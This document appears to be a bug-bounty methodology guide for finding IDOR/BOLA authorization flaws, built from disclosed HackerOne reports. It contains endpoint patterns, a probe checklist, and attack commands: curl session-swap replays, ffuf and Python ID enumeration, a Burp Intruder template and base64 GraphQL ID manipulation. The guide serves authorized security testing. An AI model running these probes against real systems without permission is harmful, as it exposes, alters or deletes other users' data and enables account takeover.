




## Crown Jewel Targets

IDOR/BOLA is the highest-frequency, highest-impact class in the dataset: 251 disclosed reports in the corpus, 256 read in full, and the one bug that teaches authorization reasoning. The finding is never "I found the ID" — it is "the server forgot to check who the ID belongs to." Payout tracks the *action* performed on the foreign object, so rank targets by the escalation ladder:

**Rung 1 — Read (confidentiality):** any endpoint returning another user's private object. Nord Security #751577 (payments data of any user, 387 upvotes), HackerOne #2487889 (private report titles/states via `/bugs.json`), GitLab #2528293 (every ML model, incremental IDs), U.S. DoD #1626508 (unauthenticated document/PII download via `Download.aspx?id=`). Verbatim from the report: "I have found this API endpoint leads to leaking attachments and documents of users."

**Rung 2 — Update (integrity):** Reddit #1661113 (edit anyone's links via GraphQL), Yelp #391092 (order with another user's credit card), MTN #1714638 (modify anyone's profile), Acronis #1403176 (price manipulation in the intercepted buy request). Read→write is what turns a Medium into a High.

**Rung 3 — Delete (availability, usually irreversible):** HackerOne #2122671 ($12,500, wipe every certification), HackerOne #1969141 (delete any campaign via base64 `campaign_id`), Pornhub #380410 ($1,500, delete photos/albums), TikTok #1475520 (delete any ad ticket), LinkedIn #1608735 (delete anyone's featured photo). The full corpus is rich in destructive cases — Veris #120115/#120121/#120126/#120123 delete any member, group, rule, or venue.

**Rung 4 — Account takeover:** Automattic/CrowdSignal #915114 (click "Update Permissions" on a foreign user ID → logged in as victim), Starbucks #876300 (PHPSESSID shared across sites), Mozilla #3154983 (session misbinding on account destruction), Automattic #1695454 (read any API token → ATO), Automattic #950881 (change any user's email → reset their password). This is where bounties cross $5,000.

**Rung 5 — Mass exploitation:** PayPal #415081 ($10,500, sequential secondary-user IDs across every business account), Shopify #2207248 ($5,000, dump billing data for every merchant), HackerOne #2122671 (full certification range wipe), U.S. DoD #685338 (mass ATO by altering a numeric ID). Show the ID is sequential and the bug affects the whole user base and you are at the top of the ladder.

Priority asset types (all observed in the 256 full reports):

- **Financial objects** — invoices, payments, credit cards, billing documents, vouchers (Shopify, PayPal, Nord Security, Yelp, Affirm #1323406, CS Money #990878, EXNESS #1644436)
- **Account-management endpoints** — user add/edit/delete, email change, password reset, role/membership assignment (PayPal, CrowdSignal, Mozilla, Veris #120115, Shopify #56511)
- **GraphQL operations taking an `id:` argument** — every query and mutation is a candidate; resolvers frequently resolve by ID without per-field auth (HackerOne #2122671, #2139190, #2633771, Shopify #2207248, Stripe #1066203, TikTok #984965)
- **Cross-tenant org/team resources** — `org_id`, `team_id`, `business_id`, `tenant_id`, `organization_id` scoped objects (Uber #1063022, TikTok #984965, Stripe #1066203, GitHub #3560256, GitLab #2528293, Helium #835005)
- **Destructive content operations** — photos, albums, videos, tickets, campaigns, certifications (Pornhub, TikTok, HackerOne, LinkedIn, Eternal #404797, U.S. DoD #2213900)
- **Media / attachment / file objects** — the second most common reference surface (`image-processing` 61 reports): attachments #668439, profile images #741683, documents #1626508, Active Storage URLs #3467641, geolocation-tagged images #906907
- **Newly released / unreleased features** — least review history, weakest authorization; monitor JS bundles and GraphQL introspection for new operations (HackerOne Copilot #2218334, GitLab ML Model Registry #2528293, Reddit achievement badges #2618486)
- **Admin / internal / staging surfaces** — `admin-internal` appeared in 46 full reports; forgotten environments share production DB or auth cookies (Starbucks #876300, #715054, U.S. DoD #1061292)

Payouts are highest for a sequential ID + write/delete primitive + cross-user or cross-tenant demonstration, ideally reaching ATO or mass data extraction.

---

## Attack Surface Signals

### URL / Request Patterns to Hunt

```
/api/v1/users/{id}/profile
/api/v*/orders/{order_id}
/invoices/download?id=
/reports/{uuid}/
/messages/{thread_id}
/businessmanage/users/api/v1/users          # PayPal #415081 (PUT, body-contained ID)
/bugs.json                                   # HackerOne #2487889 (POST, organization_id)
/users/invite-user.php?id=(userid)&popup=1   # CrowdSignal #915114
/graphql                                     # every operation with an id: argument
/api/users/info?mid=                         # Starbucks AES-encrypted sequential member ID
/api_android_v3/getUserVideos                # Pornhub private-video disclosure
/organizations/{org}/campaigns/{id}/edit     # HackerOne #1969141
/v1/account/destroy                          # Mozilla #3154983 (session misbinding)
/api/v1/orders                               # Nord #751577 (POST, user_id in JSON body)
/api/v1/users/current → /api/v1/users/@name  # WakaTime #2524562 (path username swap)
/app/dashboardData                           # MTN #1698006 (response leaks emails + ids)
/app/getUserNotes                            # MTN #1773609 (userEmail in JSON body)
/api/v1/method.call/deleteMessage            # Rocket.Chat #2028450 (message id)
/attachments/{numeric_id}                    # BCM Messenger #668439 (mobile app)
/Download.aspx?id=                           # U.S. DoD #1626508 (unauthenticated doc leak)
/p3/drivers/uploadDocument                   # Uber #194594 (overwrite other drivers' docs)
/JOINOnline/UpdateProfile/<user-id>          # U.S. DoD #2586584 (numeric, swap for PII)
/JOINOnline/Board/QuestionCard/<user-id>/...  # U.S. DoD #2586641 (PII on all base paths)
/app/items                                   # X / getrevue.co #1096560 (issue ID swap)
/deextensions/checkout_comments/curate_comment  # Judge.me #1410498 (buyer PII)
```

### Identifier Patterns

```
# Sequential / enumerable integers
id=48291          -> try 48290, 48292, 48300
user_id=00010006  -> range 00010006..19920500 (CrowdSignal #915114)
mid=6085043       -> range 1..6085045 (Starbucks)
UID2=4820038      -> cookie ID, decrement/increment (DoD #1004745 → #1004750 ATO)
terminal_id / venue_id / gatekeeper_id / rule_id  -> Veris #120115 family, mass IDOR
id=71712          -> delete path /Vendor/Companies/Delete/71712 (DoD #1627974)

# UUIDs / GUIDs — random-looking but leaked elsewhere
/reports/{uuid}/, gid://hackerone/Campaign/244
steamid=...       -> public Steam ID finder leaks the object reference (CS Money #990878)
ImageId + ProfileId -> both present in the victim's public profile link (LinkedIn #1608735)
Profile UUID + skill id -> public LinkedIn page source + 3-request intruder (LinkedIn #1592587)

# Base64-wrapped GraphQL global IDs (decode, increment, re-encode)
Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NA==  -> gid://hackerone/Campaign/244
Z2lkOi8vaGFja2Vyb25lL1JlcG9ydC8yMTIyNjcx  -> gid://hackerone/Report/2122671 (#2139190)

# Semi-random tokens with a guessable tail
929-HVV-335&token:_mch-acronis.com-<integer>-39235  # only last 5 digits change (#1182465)
order_id=1CR56170K7852611T  # PayPal transaction ID reused for a larger coin pack (#1213765)

# Client-side encrypted IDs (key/IV sitting in a JS file)
AES(mid) in /api/users/info -> decrypt with key from app bundle (Starbucks #876300)
```

### JS / Source Patterns

```javascript
fetch(`/api/v1/users/${userId}/profile`)
axios.get('/invoices/' + invoiceId)
graphql query { billingDocument(id: $docId) { id amount pdfUrl } }
// hunt for NEW operation names in minified bundles:
mutation CreateOrUpdateHackerCertification($input: ...) { ... }
mutation LockReport($reportId: ID!) { ... }              # HackerOne #2139190
mutation DestroyLlmConversation($input: ...) { ... }      # HackerOne Copilot, unreleased
mutation AddTagToAssets($input: ...) { tagId: "..." }     # HackerOne #2633771 base64 tagId
// admin-panel endpoints hiding in JS files:
// #1489470: "javascript file containing administrative panel functionality"
// state stores exposing foreign IDs
state.currentUser.organizationId
// Active Storage / direct object URLs served without auth (#3467641)
```

### Header / Tech-Stack Signals

- `Authorization: Bearer` (user-scoped token hitting org-level resources), `X-Csrf-Token`, `Cookie: PHPSESSID` / `__Host-session` / `UID2` / `connect.sid` / `steamid`
- `Content-Type: application/json` on endpoints accepting raw IDs; `X-Requested-With: XMLHttpRequest` on `.json` data endpoints
- `X-Apigw-Session` (Acronis #1901713 — replay with a session from another organization)
- `aura.token` on Salesforce Aura `/s/sfsites/aura` endpoints (U.S. DoD #2968391 PII + chat-log BAC)
- GraphQL with introspection enabled; REST with sequential IDs; multi-tenant SaaS with `org_id` / `team_id` / `business_id`
- Mobile apps (Burp the APK/IPA — mobile APIs often skip authorization checks; #668439, #254151, #3085742); WebSocket room IDs as direct object references
- Rails Active Storage direct URLs, `exiftool`-relevant image uploads (IRCCloud #906907), `location:` headers leaking object URLs
- Note: absence of CORS headers is irrelevant — IDOR needs no cross-origin exploit; you use your own session directly

---

## Discovery Patterns From 256 Full Reports

This section is rebuilt from the full text of all 256 mined reports. It captures *how researchers actually found* the object reference — the recon surface, the suspicious signal, their own words, and a concrete probe checklist. Frequencies are the number of full reports containing each signal, taken from the study-pack frequency table.

### Where Researchers Start

Ranked by how often the recon surface appears in the mined reports, then by how directly it yields an object reference. Each row is a real surface from the frequency table with what to look for.

1. **API / endpoint enumeration** — `api-endpoint` in 100 of 256 reports, the single most common discovery engine after the object reference itself.
   - What to look for: REST verbs on collection/item paths (`/api/v1/orders`, `/api/v1/users/current`, `/app/dashboardData`), data endpoints that take `organization_id`, `plan_id`, `user_id`, `checkout_ari`, `accounts`, or `report_ids[]` and return a foreign object. #751577 started with a bare `POST /api/v1/orders` that needed *no auth*; #2487889 used `/bugs.json` with a client-supplied `organization_id`; #1644436 enumerated `accounts={accountNumber}` on `*/stats/*` endpoints.

2. **Admin / internal surfaces** — `admin-internal` in 46 reports.
   - What to look for: admin APIs assume the caller is privileged. Find them in JS files (#1489470 "javascript file containing administrative panel functionality"), on `partners.*` hosts (#194594, #243943), or on government admin endpoints like `pendingUserDetails/{REGISTRATION_ID}` (#1061292) that return registration PII without authentication.

3. **URL-fetch / sync / import surfaces** — `url-fetching` in 32 reports, `import-feature` in 4.
   - What to look for: `/sync`, `/Download.aspx`, `action=ICA` import, direct file URLs. Foreign object IDs ride these paths (#990878 `/sync` with `steamid`, #1626508 `Download.aspx?id=`, #199281 import leaking other users' folder names, #3467641 Active Storage URLs).

4. **XML / SOAP parser endpoints** — `xml-parser` in 30 reports.
   - What to look for: SOAP-style `setAttribute` operations and OCS share APIs carry object IDs (#285432, #153905, #204984). Tamper the object ID inside the XML/JSON-RPC envelope, not just the URL.

5. **Cache-layer / CDN-served objects** — `cache-layer` in 19 reports.
   - What to look for: objects served from cache without re-authorization; an ID swapped once can poison or reveal a cached object for the next viewer (#2524562, #3467641).

6. **Subdomain / alternate hosts** — `subdomain-takeover` (15) + `subdomain` (9) = 24 reports.
   - What to look for: alternate hosts sharing production DB or cookies (#876300, #715054); `partners.*`/marketing hosts with weaker checks (#243943, #194594); virtual hosts found while poking a `/24` (#685338 "I came across virtual host... I discovered IDOR possibility to mass accounts takeover just by altering a numeric ID").

7. **Public code search** — `public-code-search` in 13 reports.
   - What to look for: indexed source revealing incremental IDs, internal API paths, or GraphQL schemas. #703894 found `https://gitlab.com/users/<user>/starred.json` exposing data from a "private" profile; #2524562-style `.json` report endpoints surface object references directly.

8. **JS source review** — `js-source-review` in 6 reports, but high impact; new/unreleased operations hide here.
   - What to look for: new GraphQL operation names in minified bundles (#2218334 found `DestroyLlmConversation` in HackerOne Copilot before release); administrative-panel endpoints in JS files (#1489470); AES key/IV/mode for encrypted IDs (Starbucks). Monitor bundles over time for features not yet shipped.

9. **Comparing two accounts** — the horizontal diff is the core technique; dozens of reports explicitly create "User A / User B" (and often a second tenant). Not a single frequency tag, but the method behind most entries above.
   - What to look for: log every ID that belongs to A while authenticated as A, then replay as B with only the session cookie/token swapped. #915114 ("click Edit on any user of your team"), #974222 ("create 2 accounts"), #3401612 ("comparing similar deletion endpoints"), #120115 ("I tried using my 2 accounts and got success in the same").

10. **Google dorking / internet search engines** — `google-dorking` (1) + `internet-search-engine` (1).
    - What to look for: indexed documents/PDFs expose direct object URLs (#284963 found indexed subdomains and an unauthenticated API); search engines can reveal object references for public-but-sensitive records.

### Feature-Based Discovery Signals

Frequency-ranked. Each row names the mined signal, its count out of 256 reports, and why/how to probe it.

| # | Suspicious object reference / feature (mined signal) | Reports | Why it matters / what to probe |
|---|---|---|---|
| 1 | Direct object reference (`idor-object-ref`) | 179 | The core primitive in every report. Find any ID you don't own and swap it. Try ±1, ±100, and the full range if small (#915114, #685338, #120115). |
| 2 | Object ID in an API endpoint (`api-endpoint`) | 100 | REST handlers resolve by ID without user scoping. Probe every `/api/.../{id}`, `?id=`, and body `*_id` (#751577, #544329, #1644436). |
| 3 | Comment / forum reference (`comment-injection`) | 65 | `comment_id`, `post_id`, `action=comment_edit_form` let you edit/delete/impersonate as another user (#181748, #204292, #52181, #1410498). |
| 4 | ID in a cookie (`cookie-handling`) | 65 | `UID2=` (#1004745), `PHPSESSID` (#876300), `steamid=` (#990878), `connect.sid`. Tamper the cookie to a foreign ID. |
| 5 | Server-rendered object (`server-side-rendering`) | 61 | `Download.aspx?id=` (#1626508), PDF shot records (#1085782), `aspx` profile images (#2213900). Swap the id in the direct object URL. |
| 6 | Media / photo / image ID (`image-processing`) | 61 | `photo_ids`, `ImageId`, `ProfileId`, `media_code`, `personId` — often guessed from public links. Probe delete/upload endpoints with a foreign media ID (#404797, #1608735, #741683, #906907). |
| 7 | Search / filter / sort parameter (`search-filter-sort`) | 54 | `organization_id`, `report_ids[]`, `accounts`, `calendar_id`, `text_query`, `limit/page` (#2487889, #510759, #1644436, #797685). Point the filter at a foreign org/team. |
| 8 | Admin / internal endpoint (`admin-internal`) | 46 | Admin APIs often assume the caller is privileged. Probe admin panels found in JS or on internal hosts (#1489470, #194594, #1061292). |
| 9 | Session / cross-org session token (`session-attack`) | 45 | `X-Apigw-Session` from another org (#1901713), body-over-session (#3154983), reddit session parameter (#1744264). Replay with a different org's session. |
| 10 | Raw ID in a JSON body (`json-body`) | 34 | `user_id`, `email`, `plan_id`, `userEmail`, `checkout_ari` (#751577, #1773609, #1323406). Replace with the victim's value. |
| 11 | URL-fetch / sync / download (`url-fetching`) | 32 | `/sync`, `/Download.aspx`, import endpoints. Foreign object IDs ride these paths (#990878, #1626508, #194594). |
| 12 | XML / SOAP parser endpoint (`xml-parser`) | 30 | SOAP `setAttribute`, OCS share APIs carry object IDs (#285432, #153905, #204984). |
| 13 | CSRF token coupled to IDOR (`csrf`) | 26 | Static CSRF tokens can be harvested for another user (#312555); CSRF+IDOR turns a read into a forced action (#398316, #1410498). |
| 14 | Brute / OTP / reset flow with enumerable ID (`brute-otp-reset`) | 26 | Password-reset and email-change flows keyed on a sequential user ID → ATO (#1004750, #42587, #950881). |
| 15 | Proxy / gateway feature (`proxy-feature`) | 26 | Middleware that forwards to internal APIs may skip object checks (#1698006, #1901713). |
| 16 | CORS misconfiguration alongside IDOR (`cors-misconfig`) | 23 | Not required for IDOR, but widens exploitation of a read (#2207248, #1969141, #1744264). |
| 17 | Filter / authorization bypass (`filter-bypass`) | 21 | `LockReport` mutation on any public report (#2139190), adding recipients to a shared package (#429000). |
| 18 | Misconfiguration (`misconfiguration`) | 19 | Private video links exposed via a favourites endpoint (#186279), hidden comment visibility (#1448550). |
| 19 | Cache layer (`cache-layer`) | 19 | Cached objects served without re-auth (#2524562, #3467641). |
| 20 | SSO / OAuth flow (`sso-oauth`) | 19 | Name disclosure via Alerts Notification Channel UI (#271861), cross-app session state (#1085782). |
| 21 | Redirect handling (`redirect-handling`) | 17 | Predictable `link_id`/GUID links (#469372), download redirects on object URLs (#1085782). |
| 22 | Subdomain / alternate host (`subdomain-takeover`) | 15 | Staging/alternate hosts with shared state (#876300, #715054, #685338). |
| 23 | File upload (`file-upload`) | 15 | Profile-photo upload with `personId` swap (#741683), driver-document overwrite (#194594). |
| 24 | GraphQL argument (`graphql`) | 15 | Every `id:`, `tagId`, `subredditName`, `BillingInvoice id`, `reportId` is a candidate; introspection enumerates them all (#2122671, #2633771, #1658418, #2207248, #2139190). |
| 25 | Auth bypass (`auth-bypass`) | 13 | Unauthenticated object reads after CAC/auth gate bypass (#429000, #56511). |
| 26 | Public code search (`public-code-search`) | 13 | Finds incremental IDs and hidden `.json` endpoints (#703894, #2524562). |
| 27 | Mutation polyglot (`mutation-polyglot`) | 13 | The same IDOR pattern across multiple GraphQL mutations (#2139190, #1969141). |
| 28 | Internal-network / brute enumeration (`internal-network`) | 11 | Brute-force and delete companies by ID (#1627974), enumerate all users via TalentMAP API (#1848176). |

### Verbatim Discovery Clues

Real "how I found it" lines from the full reports, lightly cleaned (redaction blocks and truncated domain fragments removed). Each is tagged with its HackerOne ID.

- [#1661113] "I found an IDOR which allows to modify the links of any user."
- [#668439] "I came across an endpoint on your android app which could be used to download any attachment which is being uploaded onto your server."
- [#1608735] "I found an IDOR while deleting featured images, allowing me to delete anyone's featured images all over Linkedin."
- [#1608735] "Both of these parameters are almost impossible to guess or brute force, but when I'm looking at the victim's profile featured images I noticed that both of the required parameters are available in the link itself."
- [#915127] "So I found another way to takeover victim's content completely via team account."
- [#1626508] "I have found this API endpoint leads to leaking attachments and documents of users."
- [#404797] "Since there is no check for res_id or ownership I was able to delete Gerben's image by just using the photo_id from his store."
- [#1096560] "I discovered a vulnerability that allows an attacker to add arbitrary images/descriptions/titles to other people's issues via IDOR."
- [#2586584] "Through research, I discovered a vulnerability in DoD, that exposes other users' email addresses through IDOR."
- [#1695454] "So I tried to escalate its impact and I noticed if we remove all parameters except `application[id]` and `authenticity_token`, then send the request, the endpoint gives an error with `Name must be provided` and prints the given application ID's page."
- [#1410498] "I noticed that the attacker can learn email users who left feedback at the time of buying."
- [#1489470] "During testing ████ I found javascript file containing administrative panel functionality."
- [#1085782] "When browsing the ██████ website with a proxy I noticed that there is a function that allows sponsors (in this case me) to view their █████s shot records in PDF form."
- [#685338] "I discovered IDOR possibility to mass accounts takeover just by altering a numeric ID."
- [#1118638] "I found an IDOR that allow anyone view other user result by changing USERID parameter."
- [#120115] "I tried using my 2 accounts and got success in the same."
- [#3401612] "I discovered this while comparing similar deletion endpoints."
- [#262661] "I have found an IDOR on HackerOne feedback review functionality, below are the following issues."

### Probe Checklist

Concrete actions derived from the clues above. Run them in order on every new target.

1. **Two-account swap (+ second tenant):** create A/B (and Org A/Org B); capture A's object IDs as A, replay as B with only the session replaced (#915114, #974222, #120115).
2. **Enumerate the range:** ±1 around a known ID, then the full range if sequential (#685338, #2528293, #915114, #1182465).
3. **Verb / method tampering:** every resource path with GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD plus `X-HTTP-Method-Override` / `_method` (#2456603).
4. **Parameter addition:** add IDs the request does not currently send — `?user_id=`, `account`, `uid`, `owner_id`, `org_id`, `Id` (#983070, #2586662).
5. **Decode encoded IDs:** base64-decode GIDs/`tagId`/`reportId`, increment the numeric part, re-encode (#1969141, #2633771, #447930, #2139190).
6. **Cookie tampering:** swap `UID2=`, `PHPSESSID`, `steamid=`, `connect.sid` to a foreign value (#1004745, #990878, #876300).
7. **Body-over-session / session misbinding:** your valid session + victim's `email`/`id`/`owner_id` in the body (#3154983, #3560256, #1698006).
8. **Mass assignment:** add `role`, `is_admin`, `permissions`, `price`, `status` to JSON bodies (#1403176, #983070).
9. **GraphQL introspection + mutations:** `__schema`, enumerate every `id:`-taking query/mutation, swap IDs in reads and writes, test nested relations and aliases (#2122671, #2207248, #2218334, #2139190).
10. **Compare similar endpoints:** a deletion/edit endpoint that differs from a protected sibling is often the unprotected one (#3401612, #120115 family).
11. **Parameter minimization:** strip all params except the ID and CSRF token to reveal an object page via a verbose error (#1695454, #283419).
12. **JS / mobile diff:** grep new bundles for fresh operation names; proxy the APK/IPA for endpoints the web app never calls (#2218334, #668439, #3085742).
13. **Harvest IDs from responses:** list responses, `Location` headers, dashboard data, error messages, PDFs, and public links often contain the "unguessable" ID (#1698006, #1608735, #1085782, #1592587).
14. **Cross-org session replay:** replay a request with `X-Apigw-Session` or other org-scoped headers from a different organization (#1901713, #1744264).
15. **Read the full response of a destructive IDOR:** deletion responses can leak non-public fields and raise severity (#2122671, #2487889).

---

## Step-by-Step Hunting Methodology

1. **Map every object reference.** Browse each feature as User A with Burp running. Filter history for `id=`, `_id=`, `uuid=`, `mid=`, `aid=`, `number=`, `/v1/{noun}/{id}`, `gid://`, `UID2=`, `steamid=`, `checkout_ari`, `userEmail`, `personId`, `report_ids[]`, `accounts`, and any numeric/UUID value in path, query, body, cookie, or header. Study-pack discovery flows start from an intercepted "normal" action: adding a blog (#974222), editing a profile (#1698006, #1714638), deleting a photo (#404797, #1608735), downloading a document (#1626508), or enrolling in a course (#783708).

2. **Create two accounts at the same privilege level** (User A = victim, User B = attacker) plus one in a *different tenant/org*. For each role, log every ID that belongs to A while authenticated as A. Reports repeatedly use exactly this: #915114 ("Edit button on any user of your team"), #3401612 ("comparing similar deletion endpoints"), #120115 ("my 2 accounts"), #797685 ("I used two accounts to search for this vulnerability").

3. **Classify each ID:** sequential integer? UUID/GUID? base64 GID? encrypted blob? public identifier (Steam ID, email, username)? — then test enumeration (A±1, A±100, or the full range if the dataset is small). Starbucks member IDs spanned `1..6085045`; CrowdSignal user IDs `00010006..19920500+`; GitLab model IDs incremental (#2528293); Veris terminal/venue/rule IDs mass-enumerable (#120115 family); Acronis lead token varied only in its last 5 digits (#1182465).

4. **Replay A's IDs as B** by swapping the session cookie/token only. A 200 with A's data (or a confirmed state change) is the bug. Compare against a known-invalid ID to establish the 403/404 baseline. #1004745 simply changed `UID2=4820038` to `4820036`.

5. **Test horizontal and vertical separately.** Horizontal = same-role peer. Vertical = a normal user performing an owner/admin action (PayPal #415081: a regular business user adding secondary users to *another* business; #1628012: a Member creating/viewing/deleting API keys; Helium #835005: reader escalating to org Administrator through the invitation API).

6. **Test ALL HTTP verbs and undocumented methods** on each resource path — GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD, plus method-override headers (`X-HTTP-Method-Override`, `_method`). Authorization is often implemented only for the verb the UI uses. IBM #2456603 was an IDOR protection bypass purely by changing the HTTP method; Veris #120291 used PUT to set another user's terminal data.

7. **Test write and destructive operations, not just reads** — update, delete, add-member, change-role, refund, transfer, order, cancel. Deletion and ATO rungs pay far more than disclosure. Cancel-any-booking (#265258, #2944357), delete-any-message (#2028450, #697412), delete-any-member (#120115), expire-other-sessions (#56511), and delete-profile-images (#2968039) are all in the full set.

8. **Hunt session-object misbinding:** for every state-changing endpoint ask "does the server verify the session owns the object in the body?" Send *your* session with the victim's object reference in the body. Mozilla #3154983 deleted the account named by the `email`/`authPW` in the body, not the one tied to the session; GitHub #3560256 checked one repository but modified another named by `owner_id`; MTN #1698006 saved profile changes to the victim identified by body `id`/`email`; Acronis #1901713 replayed a recovery with `X-Apigw-Session` from another organization.

9. **Test GraphQL systematically.** Introspect (`__schema`), enumerate every query/mutation taking an `id:` argument, then swap IDs in both queries (read) and mutations (write/delete). Test nested relations — the root resolver may auth but child fields may not. Test aliases, fragments, and batched queries. HackerOne #2633771 used base64 `tagId` in `AddTagToAssets`; Shopify #2207248 swapped `BillingInvoice` IDs in `BillDetails`/`BillingDocumentDownload`; Reddit #1658418 changed `subredditName`; HackerOne #2139190 locked any report via `LockReport`.

10. **Test cross-tenant boundaries:** create accounts in Org A and Org B; replace tenant-scoped IDs across the boundary. A `user_id` check present but no `org_id`/`team_id` check is the classic failure (TikTok #984965, Stripe #1066203, Uber #1063022, Helium #835005).

11. **Try protection bypasses:** HTTP parameter pollution, mass assignment, JSON wrapping, nested objects, API-version drift (`/v1/` vs `/v3/`), encoded/hashed IDs, hidden parameters discovered in JS/mobile traffic, and path/method normalization (see Bypass Techniques).

12. **Chain IDORs.** One IDOR's leaked data (org IDs, user IDs, tokens) fuels the next: read-IDOR → leaked ID → write-IDOR → ATO or financial impact. CrowdSignal #915114 turned a read into an ATO by following the "Update Permissions" action on the foreign ID; #1004745 leaked emails via UID2 cookie, and #1004750 used that email to reset the victim's password; Automattic #1695454 leaked API tokens for full account control.

13. **Document the exact differential** — screenshot the 200 vs expected 403/404, prove User B has no legitimate relationship to the object, and confirm the state change is real and persistent. Push back on under-rated severity with precedent reports (the researcher on #2122671 cited #1969141 and won an extra $10,000 across two corrected ratings).

---

## Payload & Detection Patterns

### Baseline two-account replay

```bash
# Capture A's object while authenticated as A
curl -s -H 'Cookie: session=USER_A_SESSION' \
  https://target.com/api/v1/invoices/12345

# Replay the same ID as B
curl -s -H 'Cookie: session=USER_B_SESSION' \
  https://target.com/api/v1/invoices/12345
# 200 + A's data = IDOR. 403/404 = baseline/protected.
```

### Enumerate sequential IDs (ffuf + Python)

```bash
ffuf -u 'https://target.com/api/v1/orders/FUZZ' \
  -w ids.txt -H 'Authorization: Bearer USER_B_TOKEN' \
  -mc 200 -fs 0 -o idor_results.json
```

```python
known_id = 48291
with open('ids.txt','w') as f:
    for i in range(known_id-500, known_id+500):
        f.write(f'{i}\n')            # ±500 around a known value
# Starbucks-style full-range sweep: for i in range(1, 6085046)
```

### Burp Intruder / extensions

```
GET /api/messages/§12345§ HTTP/1.1
Host: target.com
Authorization: Bearer USER_B_TOKEN
# Payload: numeric 12000-13000; Grep-Match "access denied" to exclude false 200s
# Use Autorize / AuthMatrix to replay the whole sitemap as B with A's cookies stripped
# Detect 200-but-no-data (empty arrays, redacted fields) — the #1 N/A driver
```

### Base64 GraphQL GID manipulation (HackerOne #1969141 / #447930 / #2139190)

```bash
echo 'Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NA==' | base64 -d
# gid://hackerone/Campaign/244  -> increment 244 -> re-encode
echo -n 'gid://hackerone/Campaign/245' | base64   # Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NQ==
echo 'Z2lkOi8vaGFja2Vyb25lL0VtYmVkZGVkU3VibWlzc2lvbkZvcm0vOQ==' | base64 -d
# gid://hackerone/EmbeddedSubmissionForm/9 — increment the primary key, re-encode (#447930)
echo 'Z2lkOi8vaGFja2Vyb25lL1JlcG9ydC8yMTIyNjcx' | base64 -d
# gid://hackerone/Report/2122671 — reuse as reportId in LockReport (#2139190)
```

```
POST /graphql HTTP/2
